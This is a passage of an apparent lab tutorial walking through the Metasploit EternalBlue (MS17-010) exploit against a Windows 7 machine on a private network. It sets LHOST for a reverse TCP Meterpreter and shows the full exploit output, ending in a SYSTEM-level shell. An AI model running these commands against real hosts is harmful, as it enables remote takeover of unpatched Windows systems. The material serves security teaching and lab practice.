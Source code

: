 Here we just need one more step: set the LHOST address so that the reverse tcp
Meterpreter will connect back to this address. Here I just set it as the machine
running Kali Linux:

```nohighlight
msf exploit(ms17_010_eternalblue) > set LHOST 192.168.1.220
LHOST => 192.168.1.220
```

Now, we are all ready. Start the exploit!

```nohighlight
msf exploit(ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.1.220:4444 
[*] 192.168.1.210:445 - Connecting to target for exploitation.
[+] 192.168.1.210:445 - Connection established for exploitation.
[+] 192.168.1.210:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.210:445 - CORE raw buffer dump (27 bytes)
[*] 192.168.1.210:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 192.168.1.210:445 - 0x00000010  73 69 6f 6e 61 6c 20 36 2e 31 00                 sional 6.1     
[+] 192.168.1.210:445 - Target arch selected valid for OS indicated by DCE/RPC reply
[*] 192.168.1.210:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.210:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.210:445 - Starting non-paged pool grooming
[+] 192.168.1.210:445 - Sending SMBv2 buffers
[+] 192.168.1.210:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.210:445 - Sending final SMBv2 buffers.
[*] 192.168.1.210:445 - Sending last fragment of exploit packet!
[*] 192.168.1.210:445 - Receiving response from exploit packet
[+] 192.168.1.210:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.210:445 - Sending egg to corrupted connection.
[*] 192.168.1.210:445 - Triggering free of corrupted buffer.
[*] Sending stage (1189423 bytes) to 192.168.1.210
[*] Meterpreter session 1 opened (192.168.1.220:4444 -> 192.168.1.210:49158) at 2017-06-05 01:55:11 -0400
[+] 192.168.1.210:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.210:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.210:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

The exploit is now successfully conducted. The Meterpreter has established a
connection between target machine and attacking machine. Next we can use Meterpreter
as a powerful shell and perform many useful(dangerous) actions, for example:

```nohighlight
meterpreter > pwd
C:\Windows\system32
```

```nohighlight
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
